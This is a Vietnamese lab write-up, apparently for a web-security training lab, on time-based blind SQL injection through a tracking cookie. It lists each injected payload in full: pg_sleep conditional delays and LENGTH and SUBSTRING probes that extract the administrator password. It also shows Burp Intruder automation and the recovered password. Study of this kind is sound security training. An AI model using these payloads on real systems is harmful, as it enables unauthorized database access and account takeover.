# Blind SQL injection with time delays and information retrieval

## B1: Phân tích yêu cầu bài lab

Đề bài có các dữ liệu sau:
- Ứng dụng sử dụng một cookie theo dõi cho mục phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi lên.
- Kết quả của truy vấn SQL không được trả về, và ứng dụng không có phản hồi khác biệt dựa trên việc truy vấn có trả về hàng hay gây lỗi hay không. Đề bài gợi ý có thể kích hoạt các độ trễ có điều kiện (conditional time delays) để suy luận thông tin.

Yêu cầu của bài lab:
- Có 1 bảng user, với các cột username và password. Cần khai thác lỗ hổng blind SQL injection này để tìm mật khẩu và đăng nhập với quyền user administrator

## B2: Bật Burp Suite và intercept gói tin, gửi gói tin đã chặn được tới Reapeater và chỉnh sửa



- Gửi gói tin đã chặn được tới Reapeater và chỉnh sửa giá trị cookie TrackingId thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--

+1=1 luôn đúng.

+Hệ quả: câu lệnh sẽ gọi pg_sleep(5), ứng dụng mất 5 giây để phản hồi.

+Mục đích: kiểm tra xem server có thực thi payload time-based và trả về theo thời gian.



- Tiếp theo thay bằng

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--;

+1=2 luôn sai.

+Hệ quả: sẽ chạy pg_sleep(0). Dẫn đến không có delay, response trả ngay.

+Mục đích: xác nhận rằng chỉ khi điều kiện đúng mới có delay, nên ta có thể dùng delay để biểu thị boolean true/false.



-Tiếp theo thay bằng:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response trả về delay 5s, vậy có thể suy luận rằng bảng users có username administrator

## B3: Xác định password có bao nhiêu kí tự
- Thay giá trị cookie thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response delay 5s, vậy độ dài mật khẩu lớn hơn 1 ký tự.

- Thay giá trị cookie thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>5)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response delay 5s, vậy độ dài mật khẩu lớn hơn 5 ký tự.

- Thay giá trị cookie thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>10)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response delay 5s, vậy độ dài mật khẩu lớn hơn 10 ký tự.

- Thay giá trị cookie thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response không bị delay, độ dài mật khẩu <= 20

- Thay giá trị cookie thành:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users—



Response delay 5s, vậy **độ dài mật khẩu = 20**.

- Sử dụng hàm SUBSTRING() để trích một ký tự đơn từ mật khẩu và so sánh với một giá trị cụ thể:

TrackingId=DOARdFNq3IYPxhVz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--



Response không bị delay, vậy kí tự đầu tiên không phải là kí tự ‘a’

## B4: Gửi request tới Burp Intruder để tự động hóa việc gửi nhiều payload

- Chọn Cluster bomb attack và Add $ cho số ‘1’(payload 1) và kí tự ‘a’(payload 2)


- Payload 1:


- Payload 2:


- Start attack và kết quả:

Vì request nào delay lâu thì có khả năng nó sẽ true, lọc nhưng request có nhưng response received lớn bất thường và lấy payload 1 và payload 2 tương ứng của nó


















**Password = 4obgcylbwe7npf6rsx1y**

